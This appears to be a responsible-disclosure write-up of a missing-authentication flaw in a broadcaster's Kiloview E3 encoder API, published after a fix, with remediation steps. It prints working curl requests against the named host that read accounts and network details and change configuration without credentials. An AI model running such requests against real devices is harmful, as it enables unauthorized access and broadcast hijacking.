








 
Exploiting a missing auth dependency on a broadcast encoder's management API to read internal network details, the ONVIF admin identity and the station's live YouTube RTMP stream key, and to reach every configuration write route with no session and no CSRF token.
 
## Target
 
`radiotelevisionge.com`: the system belongs to the state broadcaster (radio and television) of a [REDACTED] country
 
**Device:** Kiloview E3 NDI/HDMI encoder: hostname `E3-2009120011925`, MAC `18:C3:F4:21:19:25`
**Severity:** Critical: CVSS 3.1: **9.1** (`AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N`)
**Escalated:** originally reported as High 7.5 (read-only exposure). Configuration write was later proven unauthenticated as well.


 
## Summary
 
The Kiloview E3 API behind `stream.radiotelevisionge.com` accepted configuration reads and writes with **no authentication, no session and no CSRF token**. `GET /api/systemctrl/system/setHostname?name=…` returned `{"result":"ok"}`, and every POST write route (`setProtocol`, `users/add`, `users/remove`, `systime/setTime`, `record/record/settings`) reached its handler, returning `200 ok` or a field-level `422` validation error, instead of an authentication error.
 
`stream.radiotelevisionge.com` is the web management UI of a Kiloview E3 encoder (`window.kv_config`, `deviceName:"E3"`, modules `kilolinkServer` / `KISServer` / `record` / `ptz` / `onvif` / `ndiBridge`). Its SPA talks to `/api/` (`var proxyUrl = './api/'`).
 
Only `GET /api/systemctrl/users/session` was guarded (`{"result":"verficationError"}`). Every other route in the same router, including write routes, executed without credentials:
 
- **Read:** user list, internal LAN (IP/MAC/gateway/DNS), ONVIF admin account with an **empty password**, hostname/serial, protocol, time/NTP, presets, PTZ, recording policy, SSL slots.
- **Broadcast credentials (highest impact):** `GET /api/streamer/shortcuts/list` returned every output destination in clear text, including the YouTube live RTMP URL with its stream key, the active SRT relay, HLS and the NDI multicast group.
- **Write (executed, idempotent):** `GET /api/systemctrl/system/setHostname?name=<current>` → `200 {"result":"ok"}`.
- **Write (reached without auth, no state changed):** `POST /api/record/record/settings {}` → `200 ok`; `setProtocol {}` → `422`; `users/add {}` → `422`; `users/remove {}` → `422`; `systime/setTime {}` → `500`.
A guarded route returns `verficationError`, never a validation error, so getting a `422` back proves the handler ran *without* the auth dependency at all.
 
Firmware on the device (assets dated 2025-04-02) was older than E3 1.30, which CISA ICSA-26-295-01 lists as affected by nine 2026 CVEs, including a hard-coded JWT secret (CVE-2026-92450).
 
## Vulnerability Description
 
`/api/` is a FastAPI-style router. Authentication was applied **per route** rather than as a router-wide dependency. `systemctrl/users/session` had the dependency; configuration, user-management and system-control routes did not.
 
Writes also weren't protected by basic HTTP semantics: `setHostname` is a `GET` with query parameters, so a malicious link or even an `` on any page a station operator visited could change device configuration, CSRF with no token to steal, because there was no token at all.
 
## Affected Assets
 
- `https://stream.radiotelevisionge.com`, Kiloview E3 UI + `/api/` (in scope).
- Behind Cloudflare (`104.21.0.151`); the encoder's real origin IP was not published and could not be identified.
 
If reboot/reFactory had been confirmed in an owner-approved window, this would move to **9.8** (`A:H`), full device takeover.
 
## Proof of Concept
 
### Read: no credentials
 
```
curl -s https://stream.radiotelevisionge.com/api/systemctrl/users/list

{"result":"ok","data":[{"id":"admin","alias":"Admin","web":true,"api":true,...},{"id":"test_user",...}]}
```




 ```
curl -s https://stream.radiotelevisionge.com/api/networkmanager/network/GetLinkinfo

{"address":"192.168.100.252","netmask":"255.255.255.0","gw":"192.168.100.1","mac":"18:C3:F4:21:19:25","dns":"8.8.8.8"}
```



```
curl -s https://stream.radiotelevisionge.com/api/onvifmanage/onvif/get

{"control":{"enabled":true,"port":8080,"discover_port":3702},"admin_name":"admin","admin_password":"","auth_req":false}
```


 
Control request (same router, but this one *is* guarded):
 
```
curl -s https://stream.radiotelevisionge.com/api/systemctrl/users/session

{"result":"verficationError","msg":"Verfication error: 1"}
```

 
### Write: executed, idempotent (no state changed)
 
```
curl -s 'https://stream.radiotelevisionge.com/api/systemctrl/system/getHostname'

{"result":"ok","data":{"hostname":"E3-2009120011925"}}
```


```
curl -s 'https://stream.radiotelevisionge.com/api/systemctrl/system/setHostname?name=EG

{"result":"ok","msg":null}          ← write accepted, no auth, no CSRF
```



```
curl -s 'https://stream.radiotelevisionge.com/api/systemctrl/system/getHostname'

{"result":"ok","data":{"hostname":"EG"}}   ← hostname changed
```


### Write routes reached without auth (no state changed)
 
```
curl -s -X POST -H 'Content-Type: application/json' -d '{}' .../api/systemctrl/system/setProtocol

422 {"detail":[{"loc":["body","http"],"msg":"field required"},{"loc":["body","https"],...}]}
```

```
curl -s -X POST -H 'Content-Type: application/json' -d '{}' .../api/systemctrl/users/add

422 {"detail":[{"loc":["body","id"],...},{"loc":["body","password"],...}]}
```

```
curl -s -X POST -H 'Content-Type: application/json' -d '{}' .../api/record/record/settings

200 OK:  {"result":"ok","msg":null}      (recording config verified unchanged afterwards)
```
 
### Destructive routes: deliberately NOT called
 
`GET /api/systemctrl/system/{reboot,restore,reFactory}` exist (`POST` → `405 allow:GET`). These were **not invoked**: a reboot or factory reset would have interrupted or wiped the encoder feeding the national broadcast. Auth state on those routes is unproven and not claimed.
 
### Perimeter
 
| Host | Ports answering |
|---|---|
| stream… → `104.21.0.151` (Cloudflare edge, not the device) | 21, 80, 443, 8080, 8443 |
| `213.158.86.65` (WordPress origin) | 21, 80, 443, 8080, 8443 |
 
## Attack Scenario
 
1. Anyone resolves `stream.radiotelevisionge.com` (linked from the station's own site).
2. Reads the user list, LAN position (`192.168.100.252`) and ONVIF account (`admin`, empty password).
3. Writes configuration without logging in, proven with the idempotent `setHostname` call.
4. Because writes are `GET`, an `` on any page an operator visits changes the encoder, no token, no preflight.
5. The same router also holds `reboot` / `restore` / `reFactory`.
   
## Security Impact
 
- **Broadcast hijack (credential disclosure):** the live YouTube RTMP key was readable anonymously, enough to publish under the station's identity.
- **Integrity:** anonymous configuration change (proven).
- **Confidentiality:** device accounts, broadcast-LAN topology, ONVIF identity.
- **Availability (conditional):** reboot/factory-reset routes present.
- **CSRF amplifier:** GET-based writes.
- Firmware below E3 1.30 (full CISA CVE set applies).
  
## Remediation
 
1. Remove the hostname from the internet (VPN/allow-list/Cloudflare Access).
2. Apply the `users/session` auth dependency to every route, not per-route.
3. Writes via POST/PUT + CSRF token; never mutate state on GET.
4. Update firmware to ≥ 1.30.
5. Set a real ONVIF password and enforce `auth_req`, or disable ONVIF entirely.
6. Delete the leftover `test_user` account.
## Additional Recommendations
 
- Put encoders on a management VLAN with no internet egress.
- Block `/api/*` at Cloudflare except for station IPs.
- Alert on `systemctrl/system/*` and `users/*` calls from non-station IPs.
- Treat broadcast encoders as critical infrastructure, not consumer IoT.
 
*Status: fixed, reported and resolved. Published after remediation per responsible disclosure.*
